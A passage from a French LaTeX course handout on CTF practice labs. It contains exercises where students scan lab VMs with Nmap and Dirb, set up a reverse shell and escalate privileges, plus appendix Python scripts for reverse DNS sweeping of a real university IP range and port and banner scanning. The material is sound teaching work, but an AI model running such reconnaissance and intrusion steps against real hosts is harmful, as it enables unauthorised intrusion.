    \item Avec l’aide donnée par la page de l’exercice 3 ainsi que du cours, réalisez un reverse-shell sur la cible afin de trouver le flag.
    \item Connectez vous en SSH avec les informations obtenues dans le flag.\\
    Donnez la commande pour se connecter en SSH.
    \item Trouvez le flag dans /home/<USER>.
\end{enumerate}

\subsection{Exercice 4 : Si il vous reste du temps}

Dans cet exercice, vous allez réaliser le CTF Bulldog. Comme pour les autres machines, mettez-là en réseau NAT et essayez en autonomie de le réaliser. SI vous avez la moindre question, n’hésitez pas à appeler un encadrant afin qu’il puisse vous aider.

\newpage

\section{TP 2}

\textbf{Objectif :} exploitation des outils de scans, étude de documents, reverse-shell, python.\\
\textbf{Durée :} 3H\\

Lors de ce TP, vous allez devoir résoudre le CTF View2aKill présent au format OVA sur le FTP de l’IUT. Vous pouvez augmenter la quantité de RAM et de CPU de votre Kali en fonction de votre machine hôte.

\begin{enumerate}
    \item Veuillez télécharger ce CTF et l’installer sous Virtualbox.
    \item Allumez le CTF et Kali en réseau NAT et obtenez l’IP de la cible.
    \item Commencez à faire une recherche d’informations active via Nmap et Dirb. N’hésitez pas à utiliser un scan avec le script par défaut afin d’obtenir un maximum d’informations.\\
    Indiquez les ports et les services ouverts.
    \item A la suite de Dirb et de Nmap, observez toutes les pages trouvées afin d’obtenir un fichier et une page exploitables.\\
    Donnez l’url et le fichier.
    \item Avec cette recherche active d’informations, vous devez avoir obtenu une page de connexion, un mail et un mot de passe associé. Si ce n’est pas le cas, n’hésitez pas à appeler l’encadrant ou à chercher plus longtemps.
    \item Une fois connecté sur le site, à l’aide votre cours et des anciens TP, essayez de trouver une faille afin de mettre en place un reverse-shell.\\
    Aide : Burpsuite peut être d’une grande aide.
    \item Le reverse-shell est lancé et vous êtes entré dans la machine cible.\\
    Quelle est l’utilisateur dont vous avez pris le contrôle ?\\
    Avec les conseils vus en cours et en fonction de vos droits sur la machine, cherchez un moyen d’établir une connexion SSH avec un utilisateur ayant plus de droits.
    \item Vous avez donc plus de droits grâce à ce nouvel utilisateur et vous pouvez accéder aux dossiers d’autres utilisateurs. L’un d’eux contient un fichier .txt qui renferme d’importantes informations et consignes à suivre.\\
    Aide : le python vous permettra de résoudre rapidement l’énigme.
    \item Si vous avez suivi les consignes et compris les concepts des CTFs, vous êtes censés avoir obtenu le flag et ainsi gagné la partie. Si ce n’est pas le cas, n’hésitez pas à contacter l’encadrant où à chercher plus longtemps.
\end{enumerate}

%\section{TP3}
\label{chap:Mini Projet}

\subsection{Commencement}

\noindent \textbf{Durée : 3h}: \\
\noindent Au cours de ce TP, vous allez devoir attaquer la machine \textbf{TP3-CTF}. Le but du TP est de récupérer un flag et d'obtenir une élévation de privilège sur la machine adverse.\\

\noindent Rendez vous sur le FTP de l'IUT à l'adresse \textbf{ftp://192.168.33.54} et téléchargez le CTF au format OVA \textbf{TP3-CTF.ova}. Installez-le sur votre machine avec Virtualbox. Si ce n'est pas déjà fait, téléchargez un iso de Kali linux sur le ftp de l'IUT ou demandez une image aux encadrants.

\subsubsection{Configuration réseau de Virtualbox}

Pour effectuer ce TP, vous allez configurer un réseau NAT sous Virtualbox. Vous allez tout d'abord créer un réseau NAT pour faire communiquer votre Kali Linux et la machine qui hébergera le CTF. Pour ce faire, allez dans \textbf{Fichier/Paramètres/Réseau}:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.5\textwidth]{oui/TP3/imageCTF.png}
  \caption{Création du réseau NAT}
  \label{fig:courbe-tikz}
\end{figure}

Appuyez sur le "+" pour créer votre réseau. Par défaut, ce réseau dispose d'un serveur DHCP avec une adresse réseau de \textbf{10.0.2.0/24} :
%\newpage
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.5\textwidth]{oui/TP3/imageCTF2.png}
  \caption{Paramètres réseau NAT}
  \label{fig:courbe-tikz}
\end{figure}

Vous pouvez laisser tout par défaut.

\subsubsection{Ajout d'une machine au réseau}

Pour ajouter votre VM au réseau NAT, selectionnez votre machine, cliquez sur configuration. Allez ensuite dans la catégorie réseau et sélectionnez réseau NAT:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.7\textwidth]{oui/TP3/imageCTF3.png}
  \caption{Aujout d'une machine au réseau NAT}
  \label{fig:courbe-tikz}
\end{figure}

Effectuez cette opération pour votre Kali linux ainsi que pour la machine TP3-CTF.
%\subsection{Début du CTF}
\label{chap:Mini Projet}

\subsubsection{Récolte d'informations}
Si ce n'est pas déjà fait, allumez la machine \textbf{TP3-CTF}.

\begin{enumerate}
    \item Effectuez un scan sur votre réseau pour trouver l'IP de la machine à attaquer.\\
        Quelle commande faut-t'il effectuer? Indiquez la commande ainsi que l'IP de la machine cible.\\
        
    Il faut maintenant récupérer des informations sur la machine. Pour ce faire, il faut utiliser un outil de scan de ports et de services.\\
    
    \item Faites un scan de ports et des services sur la machine. Quel outil faut-il utiliser? Scannez maitenant les versions des services. Quel option faut-il ajouter? Listez le nom des services ainsi que les versions que vous avez trouvé.\\
    
    Une fois fait, vous devriez constater que cette machine héberge un serveur web.\\
    
    \item Expliquez à partir du cours les méthodes d'attaque sur un "CTF web". \\
    
    \item Utilisez un outil vu en cours pour scanner les fichiers du site web. Quel est cet outil? Selon-vous, quelle serait la méthode pour attaquer le site à partir des informations que vous venez de trouver? Faites un schéma de l'attaque.
\end{enumerate}

\subsubsection{Exploitation des failles}

\chapterimage{oui/images/illustrations/chap_flagsa.jpg}
\chapter{DM}

Dans cette section, nous allons vous proposer un DM que nous avons réalisé pour vous et qui se nomme CTF Mr Robot. Vous pouvez dès à présent le télécharger sur le FTP de l'IUT au format OVA. Le DM sera prit en note bonus dans les TP. Si votre note de TP est déjà de 20, ce bonus sera basculé sur le DS. Bonne chance à vous.
\chapterimage{oui/images/illustrations/chap_keyboarda.jpg}
\chapter{Conclusion}

Au cours de ce module consacré au CTF, nous avons eu l'occasion d'effectuer de nombreuses recherches afin de comprendre ce qu'était réellement un CTF.
Nous avons pu constater qu'il existe de nombreux domaines dans lesquels peuvent se dérouler des CTFs, ce qui implique ainsi une multitude d'outils qui ont été sélectionnés pour affiner notre approche sur le sujet. En effet, tous ces outils sont plus ou moins complexes et proposent pour la plupart une grande variété d'options ou de modes d'utilisations.
Avec l'aide de Kali Linux, nous avons donc pu apprendre à manier les principaux outils, que nous considérons comme les bases pour réaliser un CTF (Nmap, Nitko, Dirbuster, Metasploit, etc...). Il faut tout de même se rappeler que ce n'est pas la distribution qui permet le pentesting mais les outils qu'elle contient.

%----------------------------------------------------------------------------------------
%	GLOSSAIRE
%----------------------------------------------------------------------------------------
\part{Sixième partie}
\chapterimage{oui/images/illustrations/chap_cableb.jpg}
\chapter{Glossaire}

\begin{description}
\item[CTF] Capture The Flag, voir \url{https://fr.wikipedia.org/wiki/Capture_du_drapeau}
\item[ARP] Address Resolution Protocol, voir \url{https://en.wikipedia.org/wiki/Address_Resolution_Protocol}
\item[DNS] Domain Name System, voir \url{https://www.frameip.com/dns/}
\item[MAC] Media Access Control, voir \url{https://fr.wikipedia.org/wiki/Adresse_MAC}
\item[TCP] Transmission Control Protocol, voir \url{https://fr.wikipedia.org/wiki/Transmission_Control_Protocol}
\item[UDP] User Datagram Protocol, voir \url{https://fr.wikipedia.org/wiki/User_Datagram_Protocol}
\item[HTTP] Hypertext Transfer Protocol, voir \url{https://fr.wikipedia.org/wiki/Hypertext_Transfer_Protocol}
\item[HTML] Hypertext Markup Language, voir \url{https://fr.wikipedia.org/wiki/Hypertext_Markup_Language}
\item[CLI] Command Line Interface, voir \url{https://fr.wikipedia.org/wiki/Interface_en_ligne_de_commande}
\item[GUI] Graphical User Interface, voir \url{https://fr.wikipedia.org/wiki/Interface_graphique}
\item[XSS] Cross-site scripting, voir \url{https://fr.wikipedia.org/wiki/Cross-site_scripting}
\item[SQL] Structured Query Language, voir \url{https://fr.wikipedia.org/wiki/Structured_Query_Language}
\item[PHP] Hypertext Preprocessor, voir \url{https://www.php.net/}
\item[OSI] Open Systems Interconnection, voir \url{https://fr.wikipedia.org/wiki/Modèle_OSI}
\item[LAN] Local Area Network , voir \url{https://fr.wikipedia.org/wiki/Réseau_local}
\item[IDS] Intrusion Detection System, voir \url{https://fr.wikipedia.org/wiki/Système_de_détection_d'intrusion}
\item[DLL] Dynamic Link Library, voir  \url{https://fr.wikipedia.org/wiki/Dynamic_Link_Library}
\end{description}



%----------------------------------------------------------------------------------------
%	BIBLIOGRAPHY
%----------------------------------------------------------------------------------------
%\addcontentsline{toc}{chapter}{Bibliographie}
\chapterimage{oui/images/illustrations/chap_flagsb.jpg}
\chapter{Bibliographie}
\nocite{*}

% "Edit Keyboards" by camknows is licensed under CC BY-NC-SA 2.0 
% "Network Rack" by one individual is licensed under CC BY-SA 2.0
% "Switch and network cables" by Christiaan Colen is licensed under CC BY-SA 2.0
% "htop" by aerissecure is licensed under CC BY 2.0 
% "Saturday Night Cookies" by Martin Cathrae is licensed under CC BY-SA 2.0

%\bibliographystyle{annotate} %{unsrt}
%\bibliographystyle{unsrt}
%\bibliography{references}

\printbibliography[keyword={recherche},heading=subbibintoc,title={Recherche d'informations active}]
\printbibliography[keyword={exploitation},heading=subbibintoc,title={Exploitations des informations}]
\printbibliography[keyword={intrusion},heading=subbibintoc,title={Intrusion système}]
%----------------------------------------------------------------------------------------
%   ANNEXE
%----------------------------------------------------------------------------------------

\begin{appendix}
    \chapter{Annexe}
    
    \section*{Script Nslookup}

    \setlstipython
    \begin{lstlisting}
    ""Script permettant de faire une résolution DNS sur la plage ip 193.51.33.0/24""
    import socket
    import subprocess
    i = 0
    str2 = "193.51.33.",i     #Ip du domaine uvsq.fr
    for i in range (1,255):
        ip = "193.51.33.{0}".format(i)
        print(socket.gethostbyaddr(ip))     #Utilisation de socket pour pouvoir effectuer la  requête DNS
    \end{lstlisting}
    \label{fig:nslookup}
    
    \section*{Script Nmap}
    
    \begin{lstlisting}
#! /usr/bin/env python3
import os
import socket
import subprocess
import time
from tqdm import tqdm #barre d'avancement
import re		#Matche la regex
#import chardet #Ne fonctionne malheuresement pas correctement

def match (string,reg):
	"""Va renvoyer la valeur du match de la regex : None = mauvaise regex ou encodage"""
	test=re.match(reg, string)
	return test

def requestversion(request, port):
	"""Va envoyer la requête au port voulu et retourner le port, le nom et la version"""
	name=services(port)
	if name =='microsoft-ds' and port == 445: 	#nmap simple trouve microsoft tandis que nmap -sV trouve netbios-ssn, sûrement une erreur dans le dictionnaire...
		name=services(139)
	connection.send(request)
	version=connection.recv(2000)			#Problème ici de codec. Oui tout le monde n'utilise pas l'unicode
	#code=chardet.detect(version) 			#Ne fonctionne pas ! Renvoi un codec non fonctionnel et qui varie 
	#print(code)
	l=['ascii','big5','big5hkscs','cp037','cp273','cp424','cp437','cp500','cp720','cp737','cp775','cp850','cp852','cp855','cp856','cp857','cp858',
	'cp860','cp861','cp862','cp863','cp864','cp865','cp866','cp869','cp874','cp875','cp932','cp949','cp950','cp1006','cp1026','cp1125','cp1140',
	'cp1250','cp1251','cp1252','cp1253','cp1254','cp1255','cp1256','cp1257','cp1258','cp65001','euc_jp','euc_jis_2004','euc_jisx0213', 'euc_kr',
	 'gb2312','gbk','gb18030','hz','iso2022_jp','iso2022_jp_1','iso2022_jp_2','iso2022_jp_2004','iso2022_jp_3','iso2022_jp_ext','iso2022_kr',
	 'latin_1','iso8859_2','iso8859_3','iso8859_4','iso8859_5','iso8859_6','iso8859_7','iso8859_8','iso8859_9','iso8859_10','iso8859_11',
	 'iso8859_13','iso8859_14','iso8859_15','iso8859_16','johab','koi8_r','koi8_t','koi8_u','kz1048','mac_cyrillic','mac_greek','mac_iceland',
	 'mac_latin2','mac_roman','mac_turkish','ptcp154','shift_jis','shift_jis_2004','shift_jisx0213','utf_32','utf_32_be','utf_32_le',
	 'utf_16','utf_16_be','utf_16_le','utf_7','utf_8','utf_8_sig','iso8859-15']
#Cette liste de codecs va donc être utilisée pour matcher la regex
	with open("nmap-service-probes","r") as g:	#Ouverture de nmap-service-probes pour matcher et récuperer le proto et la version	
		ligne=g.readlines()
	b=0	
	while b <len(ligne):				#Pour chaque ligne du fichier
		espace=ligne[b].split()			#On découpe en espace
		if len(espace) > 1:				#Si la phrase contient plusieurs espaces, on enlève ainsi toutes les phrases sans valeurs
			if espace[0] == 'match' and espace[1] == name:	#Si la phrase commence par match et par notre service
				trio=ligne[b].split(" ",2)	#On sépare cette phrase en trois : match, le service et le reste
				reg=trio[2].split(" p/")	#On isole la regex du reste
				regp=reg[0].replace("m|","").replace("m=","").replace("|s","").replace("=s","")	#On rend "pur" la regex"
				n=0
				while n < len(l) :	#Le but ici est de tester tous les encodages et regex pour matcher
					try:
						try :
							v2=version.decode()
						except (LookupError,UnicodeDecodeError):
							v2=version.decode(l[n],'ignore')
						if match(v2,regp) :	#Si ça match, après test, il y en a plusieurs au sein de service-probes
							sproto=reg[1].split('/ v/')#On va donc essayer d'en éliminer pour récupérer que celui avec v/ soit la version
							if len(sproto) >1:	#L'élimination se fait ici
								prot=sproto[0]	#Le protocole est la première partie de ce split
								sversion=sproto[1].split('/ i/')
								if len(sversion) > 1:
									ver=sversion[0]	#La version se récupère de la même manière que le protocole
									version=prot+ver
									n=len(l)
									b=len(ligne)
								else:
									n=len(l)
							else :
								n=len(l)
						else:
							n+=1
					except LookupError :		#LookupError est obtenue lorsque l'on ne peut pas décoder la version
						n+=1
		b+=1
	connection.close()
	return port, name , version



def services(port) :							
	"""Retourne le service du port fourni"""
	with open("nmap-services","r") as f:		#Ouverture du fichier nmap-services où sont sotckés les noms des services
		list1 = f.readlines()
	for l in list1:
		test=(l.split()[1])						#nmap-services contient les ports en tcp et udp et on veut du tcp
		test2=test.split('/')
		if test2[1] != "udp" and test2[0] == str(port): #On récupère le nom en fonction du port
			return l.split()[0]

if __name__=="__main__":	
	os.system('clear')
	ip_dest=input("Entre ip victime : ")
	port=1
	time1=time.time()
	list_port=list()
	port_name=list()
	banner=list()
	for i in tqdm(range(1000)):					#On scanne ici les 1000 premiers ports
		connection=socket.socket(socket.AF_INET, socket.SOCK_STREAM) #On ouvre le socket
		essai=connection.connect_ex((ip_dest, port))	#On essaie de se connecter, renvoi 0 si c'est une réussite
		if essai== 0:
			port, name, version = requestversion(b'\0\0\0\xa4\xff\x53\x4d\x42\x72\0\0\0\0\x08\x01\x40\0\0\0\0\0\0\0\0\0\0\0\0\0\0\x40\x06\0\0\x01\0\0\x81\0\x02PC NETWORK PROGRAM 1.0\0\x02MICROSOFT NETWORKS 1.03\0\x02MICROSOFT NETWORKS 3.0\0\x02LANMAN1.0\0\x02LM1.2X002\0\x02Samba\0\x02NT LANMAN 1.0\0\x02NT LM 0.12\0',port)								#Requête pour les ports 139 et 445 trouvé dans nmap-service-probes


			port_name.append(port)			#Pour chaque port ouvert, on enregistre son nom, son port et sa version
			list_port.append(name)
			banner.append(version)
		port+=1
	for i in range (len(list_port)):		#On affiche le tout à la fin du scan
		print(list_port[i],port_name[i],banner[i])
	time2=time.time()-time1
	connection.close()
	print("Time of the scan :",time2)
\end{lstlisting}
\label{fig:prog1}

\end{appendix}

%------------------------------------------------

%\section*{Articles}
%\addcontentsline{toc}{section}{Articles}
%\printbibliography[heading=bibempty,type=article]

%------------------------------------------------

%\section*{Books}
%\addcontentsline{toc}{section}{Books}
%\printbibliography[heading=bibempty,type=book]

%----------------------------------------------------------------------------------------
%	INDEX
%----------------------------------------------------------------------------------------

\cleardoublepage % Make sure the index starts on an odd (right side) page
\phantomsection
\setlength{\columnsep}{0.75cm} % Space between the 2 columns of the index
\addcontentsline{toc}{chapter}{\textcolor{ocre}{Index}} % Add an Index heading to the table of contents
\printindex % Output the index

%----------------------------------------------------------------------------------------

\end{document}
